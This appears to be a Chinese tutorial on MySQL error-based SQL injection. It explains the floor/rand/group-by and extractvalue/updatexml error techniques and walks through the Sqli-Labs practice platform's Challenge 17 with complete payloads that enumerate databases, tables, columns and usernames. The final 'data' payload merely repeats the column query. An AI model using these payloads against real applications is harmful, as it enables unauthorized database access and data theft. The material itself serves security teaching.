


报错注入原理
报错注入用于没有显位的SQL注入，可以用来替代盲注。
当在一个聚合函数，比如 count 函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。 这些函数分别是:
Rand()//随机函数Floor()//取整函数Count()//聚合函数Group by key//分组语句
例如，利用floor()语句报错，是利用floor(),count(),group() by冲突报错，当这三个函数在特定情况一起使用产生的 错误。
===
ExtractValue(): 使用XPath表示法从XML字符串中提取值
ExtractValue(xml_frag, xpath_expr)接受两个字符串参数，一个XML标记片段 xml_frag和一个XPath表达式 xpath_expr（也称为 定位器）; 它返回CDATA第一个文本节点的text（），该节点是XPath表达式匹配的元素的子元素。UpdateXML(): 返回替换的XML片段UpdateXML(xml_target, xpath_expr, new_xml)此函数用来更新选定XML片段的内容，将XML标记的给定片段的单个部分替换为xml_target新的XML片段new_xml，然后返回更改的XML。xml_target替换的部分 与xpath_expr用户提供的XPath表达式匹配。如果未xpath_expr找到表达式匹配 ，或者找到多个匹配项，则该函数返回原始xml_targetXML片段。所有三个参数都应该是字符串。
extractvalue注入的原理:依旧如同updatexml一样，extract的第二个参数要求是xpath格式字符串，而我们输入的并不是。 所以报错。
报错注入实例
本实例使用Sqli-Labs平台的 Challenge # 17 进行。其中，源代码中的check_input()函数如下
1 | $uname = check_input($_POST['uname']); |
check_input()中，对 username 进行各种转义的处理，所以此处不能使用 username 进行注入。
extractvalue报错注入流程
使用extractvalue()，首先得知数据库中存在admin账户。
获取版本信息
1 | aaa' and extractvalue(1,concat(0x7e,(select @@version),0x7e))# |

数据库名
1 | aaa' and extractvalue(1,concat(0x7e,(select database()),0x7e))# |
获取表名
1 | aaa' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e))# |
获取列名
1 | aaa' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),0x7e))# |
获取数据
1 | aaa' and extractvalue(1,concat(0x7e,(select * from (select username from users limit 0,1) as a),0x7e))# |

updatexml报错注入流程
获取数据库名
1 | uname=admin&passwd=' or updatexml(1,concat('#',(database())),0)--+ |
表名
1 | uname=admin&passwd=' or updatexml(1,concat('#',(select group_concat(table_name) from information_schema.tables where table_schema='security')),0)--+ |
列名
1 | uname=admin&passwd=' or updatexml(1,concat('#',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),0)--+ |
数据
1 | uname=admin&passwd=' or updatexml(1,concat('#',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),0)--+ |
参考链接
Mysql报错注入原理分析(count()、rand()、group by)